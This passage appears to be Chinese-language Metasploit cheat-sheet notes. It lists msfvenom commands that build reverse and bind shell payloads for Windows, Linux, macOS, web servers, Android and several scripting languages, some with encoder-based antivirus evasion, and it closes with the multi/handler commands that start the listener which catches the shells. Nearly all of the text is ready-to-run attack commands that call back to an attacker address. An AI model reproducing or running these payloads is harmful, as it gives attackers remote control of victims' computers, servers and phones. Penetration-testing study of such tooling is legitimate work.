  ##### Auxiliary
	>show auxiliary 查看所有模块
 ##### Payload
	>show payloads 查看所有攻击载荷
	Payload是目标被攻击时执行的实际功能代码
	生成载荷
	>use exploit/multi/script/web_delivery
	>set target 2
	>msfvenom --list payloads 列出所有payload
	>msfvenom --list encoders 列出所有编码器
    Windows
	>msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f exe -o /root/1.exe
	>msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o 1.exe
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f psh-reflection >xxx.ps1
	>msfvenom -a x64 --platform windows -p windows/powershell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -e cmd/powershell_base64 -i 3 -f raw -o shell.ps1
	>msfvenom -p windows/shell_hidden_bind_tcp LHOST=192.168.0.1 LPORT=11111  -f exe> /root/1.exe  生成NC正向连接
	>msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f exe> 1.exe 生成NC反向连接
    Linux
	>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -e -f elf -a x86 --platform linux -o shell
	>msfvenom -p cmd/unix/reverse_bash LHOST=192.168.0.1 LPORT=11111 -f raw > shell.sh
    MacOS
	>msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f macho > shell.macho
    Web
	>msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f raw > shell.php
	>msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f war > shell.war
	>msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f aspx -o payload.aspx
	>msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f raw -o payload.jsp
	>msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f asp > shell.asp
    Android
	>msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f apk -o payload.apk
	>msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=12138 -f raw > shell.apk
	>msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=12138 R > test.apk
    shellcode
	>msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.0.1 LPORT=11111 -f c –o /root/1.c
	>msfvenom -p cmd/unix/reverse_python LHOST=192.168.0.1 LPORT=11111 -o shell.py
	>msfvenom -a python -p python/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f raw > shell.py
	>msfvenom -p cmd/unix/reverse_perl LHOST=192.168.0.1 LPORT=11111 -f raw -o payload.pl
	>msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f raw -o payload.rb
	>msfvenom -p cmd/unix/reverse_lua LHOST=192.168.0.1 LPORT=11111 -f raw -o payload.lua
 ###### msf设置监听
	>use exploit/multi/handler
	>set payloadwindows/meterpreter/reverse_http 指定相应的payload
	>set LHOST 192.168.0.1
	>set LPORT 11111
	>exploit -j 后台监听
	或在exploit模块中直接使用set payload 命令指定payload